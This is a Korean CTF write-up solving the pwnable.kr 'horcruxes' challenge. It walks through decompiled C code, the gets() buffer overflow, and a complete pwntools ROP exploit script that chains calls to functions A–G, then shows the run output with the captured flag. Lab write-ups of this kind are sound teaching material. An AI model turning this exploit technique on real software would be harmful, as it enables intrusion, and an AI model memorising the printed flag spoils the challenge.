 # 문제
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---  
# 개요  
ROP 문제라고 대 놓고 문제에서 알려주네요 우선 바이너리를 가져와봅시다. 

---
# 분석 
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST18_4@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  alarm(0x3Cu);
  hint();
  init_ABCDEFG();
  v3 = seccomp_init(0);
  seccomp_rule_add(v3, 2147418112, 173, 0);
  seccomp_rule_add(v3, 2147418112, 5, 0);
  seccomp_rule_add(v3, 2147418112, 3, 0);
  seccomp_rule_add(v3, 2147418112, 4, 0);
  seccomp_rule_add(v3, 2147418112, 252, 0);
  seccomp_load(v3);
  return ropme();
}
```
위의 코드는 IDA를 통해 본 main 루틴입니다.

여기서 중요한 함수는 init_ABCDEFG()함수와 rompe() 함수입니다.

```c
unsigned int init_ABCDEFG()
{
  int v0; // eax@4
  unsigned int result; // eax@4
  unsigned int buf; // [sp+8h] [bp-10h]@1
  int fd; // [sp+Ch] [bp-Ch]@1

  fd = open("/dev/urandom", 0);
  if ( read(fd, &buf, 4u) != 4 )
  {
    puts("/dev/urandom error");
    exit(0);
  }
  close(fd);
  srand(buf);
  a = 0xDEADBEEF * rand() % 0xCAFEBABE;
  b = 0xDEADBEEF * rand() % 0xCAFEBABE;
  c = 0xDEADBEEF * rand() % 0xCAFEBABE;
  d = 0xDEADBEEF * rand() % 0xCAFEBABE;
  e = 0xDEADBEEF * rand() % 0xCAFEBABE;
  f = 0xDEADBEEF * rand() % 0xCAFEBABE;
  v0 = rand();
  g = 0xDEADBEEF * v0 % 0xCAFEBABE;
  result = f + e + d + c + b + a + 0xDEADBEEF * v0 % 0xCAFEBABE;
  sum = result;
  return result;

```
urandom을 시드로 a ~ g 변수를 각각 랜덤하게 생성합니다.  

result 변수에는 a ~ g 변수의 합이 저장됩니다.  

이후 이 값은 ```rompe()``` 함수에서 씁니다.
```c
printf("Select Menu:");
__isoc99_scanf("%d", &v2);
getchar();
if ( v2 == a )
{
  A();
}
else if ( v2 == b )
{
  B();
}
else if ( v2 == c )
{
  C();
}
else if ( v2 == d )
{
  D();
}
else if ( v2 == e )
{
  E();
}
else if ( v2 == f )
{
  F();
}
else if ( v2 == g )
{
  G();
}
```
v2 == a 를 보고 0xa인줄 알고 괜한 삽질을 했습니다. 아무래도 전역변수 같습니다.

```c
else
{
  printf("How many EXP did you earned? : ");
  gets(s);
  if ( atoi(s) == sum )
  {
    fd = open("flag", 0);
    s[read(fd, s, 0x64u)] = 0;
    puts(s);
    close(fd);
    exit(0);
  }
  puts("You'd better get more experience to kill Voldemort");
}
return 0;
```
G까지 모두 틀리면 위의 루틴을 만나게 됩니다. gets로 입력을 받고 그 값이
a~g 합과 같다면 플래그를 출력합니다.

gets함수를 사용하므로 ret를 덮어서 A() 함수부터 G() 함수까지 차례대로 호출하여 EXP를 파싱하고 더한 후 rompe() 함수를 호출하여 값을 넣어주면 플래그를 출력할 것 같습니다.

```python
from pwn import*

p = remote(0,9032)

print p.recvuntil("Select Menu:")
p.sendline("0")

print p.recvuntil("How many EXP did you earned? : ")

payload = "A"*120
payload += "\x4b\xfe\x09\x08" #a
payload += "\x6a\xfe\x09\x08" #b
payload += "\x89\xfe\x09\x08" #c
payload += "\xa8\xfe\x09\x08" #d
payload += "\xc7\xfe\x09\x08" #e
payload += "\xe6\xfe\x09\x08" #f
payload += "\x05\xff\x09\x08" #g
payload += "\xfc\xff\x09\x08" #rompe

p.sendline(payload)

sum = 0

for i in range(0, 7):
  p.recvuntil('EXP +')
  sum = sum + int(p.recvuntil(')')[:-1])
  print sum

print p.recvuntil("Select Menu:")
p.sendline("0")

print p.recvuntil("How many EXP did you earned? : ")
p.sendline(str(sum))

print p.interactive()
```
```
horcruxes@ubuntu:/tmp$ python exp.py
[+] Opening connection to localhost on port 9032: Done
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:
How many EXP did you earned? :
454574208
-549777161
-1673475767
-1085042747
349691327
777050481
-1270876098

Select Menu:
How many EXP did you earned? :
[*] Switching to interactive mode
Magic_spell_1s_4vad4_K3daVr4!
```
